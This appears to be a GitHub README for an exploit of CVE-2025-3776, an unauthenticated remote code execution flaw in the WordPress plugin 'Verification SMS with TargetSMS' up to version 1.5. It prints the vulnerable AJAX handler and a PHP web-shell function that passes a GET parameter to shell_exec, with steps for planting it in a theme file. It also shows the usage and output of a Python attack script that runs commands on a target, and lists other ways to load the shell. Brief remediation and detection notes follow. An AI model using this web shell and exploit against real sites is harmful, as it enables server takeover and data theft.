 
# CVE-2025-3776 - Remote Code Execution in "Verification SMS with TargetSMS" Plugin <= 1.5

## Plugin Information
- **Plugin Name:** Verification SMS with TargetSMS
- **Vulnerable Versions:** <= 1.5
- **CVE ID:** CVE-2025-3776
- **Type:** Remote Code Execution (RCE)
- **OWASP Classification:** A1: Injection
- **CVSS Severity:** 10.0 (Critical)
- **Required Privileges:** Unauthenticated
- **Published Date:** April 23, 2025

---

## Root Cause: Programming Mistake
The vulnerability originates from the use of `call_user_func()` on user-controlled input without sanitizing against a whitelist of allowed functions. This creates a logic flaw where any **existing PHP function in memory** can be executed without authentication, leading to a severe Remote Code Execution (RCE) condition.

## Vulnerable Code Location
File: `/inc/ajax.php`

```php
add_action('wp_ajax_nopriv_targetvrHHndler', 'targetvr_ajax_handler');

function targetvr_ajax_handler(){
    $callback = targetvr_get_postData('callback', 'string');

    if ($callback and function_exists($callback)){
        call_user_func($callback);
    } else {
        targetvr_return_json(false);
    }

    wp_die();
}
```

This code allows unauthenticated users to trigger any function that exists in memory, including malicious ones if the attacker is able to load them.

---

## How to Test This Vulnerability

### ✅ Prerequisites
To exploit this vulnerability successfully, a callable function must already exist in the WordPress environment. Since WordPress plugins and themes can auto-load functions, the attacker can inject their own function through the active theme’s `functions.php` file.

### 📍 File to Modify:
```
target.com/wp-content/themes/twentytwentyfour/functions.php
```

### 🛠️ Inject the following payload at the end of `functions.php`:
```php
function evil() {
    if (isset($_GET['cmd'])) {
        echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';
    } else {
        echo '<pre>' . shell_exec("whoami") . '</pre>';
    }
    exit;
}
```

> ✅ This ensures the `evil()` function is loaded into memory and becomes executable via `call_user_func()`.

---

## Exploitation Steps Using Python Script

### ✅ Usage:
```bash
python3 CVE-2025-3776.py -u http://target.com -c "id"
```

### ✅ Example Output:
```bash
[*] Checking plugin version...
[+] Plugin version detected: 1.5
[+] Plugin is vulnerable. Proceeding with exploitation...
[*] Sending exploit request...
[+] Exploit succeeded!
<pre>uid=1(daemon) gid=1(daemon) groups=1(daemon)</pre>

Exploit By : Nxploited ( Khaled Alenazi )
```

---

## Python Script Help Menu:
```bash
usage: CVE-2025-3776.py [-h] -u URL [-c CMD]

CVE-2025-3776 Exploit for TargetSMS Plugin <= 1.5

# Exploit by Nxploited ( Khaled Alenazi )

options:
  -h, --help     show this help message and exit
  -u, --url URL  Target WordPress site URL
  -c, --cmd CMD  Command to execute (default: whoami)
```

---

## Behavior Without Injection
If no `evil()` function or similar is available in memory:
- The request will result in:
```json
{"status":false}
```
- This means the callback function does not exist, and the exploit fails safely.

---

## Real-World Exploitation Paths
- **Theme File Injection:** Modify the active theme’s `functions.php` (as demonstrated).
- **Via File Manager Plugins:** Use any plugin like *WP File Manager* to upload PHP file containing `evil()`.
- **Via LFI or include flaws:** Use an existing Local File Inclusion (LFI) to include uploaded file that contains a malicious function.

---

## Risk and Impact
Once a malicious function is loaded, an unauthenticated attacker can:
- Execute arbitrary shell commands
- View sensitive server files
- Pivot into full site or server compromise

---

## Recommendation
- Immediately disable or remove the plugin if running version <= 1.5
- Restrict access to file editing via wp-admin
- Patch or replace the plugin with secure alternatives

---

## Detection
Look for repeated POST requests to:
```
/wp-admin/admin-ajax.php?action=targetvrHHndler
```
With `callback=evil` or any unexpected function names

---

## Legal Disclaimer
This information is provided for educational and ethical research purposes only. The author is not responsible for any misuse or damage caused by the use of this information.

---

## Exploit Attribution
**Exploit By**: Nxploited (Khaled Alenazi)
